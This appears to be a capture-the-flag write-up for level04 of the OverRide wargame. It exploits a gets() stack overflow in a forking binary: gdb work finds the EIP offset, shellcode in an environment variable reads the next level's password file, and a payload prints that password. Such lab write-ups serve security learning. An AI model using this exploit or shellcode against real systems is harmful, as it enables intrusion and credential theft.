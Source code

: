 # level04

The program uses `gets` function to read stdin without checking size.

## Step 1. Calculate offset to overwrite `eip`
```assembly
level04@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" level04
[...]
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
=> 0x0804875e <+150>:	call   0x80484b0 <gets@plt>
[...]
```
```
level04@OverRide:~$ gdb -q level04
(gdb) set follow-fork-mode child
(gdb) break *0x0804875e
Breakpoint 1 at 0x804875e
(gdb) run
Starting program: /home/users/level04/level04
[New process 1952]
Give me some shellcode, k
[Switching to process 1952]

Breakpoint 1, 0x0804875e in main ()
(gdb) info registers eax
eax            0xffffd670	-10640
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804875e in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd700, ebp at 0xffffd708, edi at 0xffffd704, eip at 0xffffd70c
(gdb) print 0xffffd70c - 0xffffd670
$1 = 156
```
The program calls `fork` to create a new process, then its child process (pid == 0) calls `gets` to read stdin. We used `set follow-fork-mode child` to let GDB follow the child process and got offset `156` by calculating `eip - eax`.

## Step 2. Store the shellcode in the environment variable
```c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	printf("%p\n", getenv("SHELLCODE"));
}

```
```
level04@OverRide:~$ export SHELLCODE=`perl -e 'print "\x90"x100, "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
level04@OverRide:~$ gcc -m32 /tmp/getenv.c -o /tmp/getenv
level04@OverRide:~$ /tmp/getenv
0xffffd845
```
We put the shellcode in the environment variable and get the address by running a little C program.

## Step 3. Build the payload
```
level04@OverRide:~$ perl -e 'print "A"x156, pack("V", 0xffffd845)' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
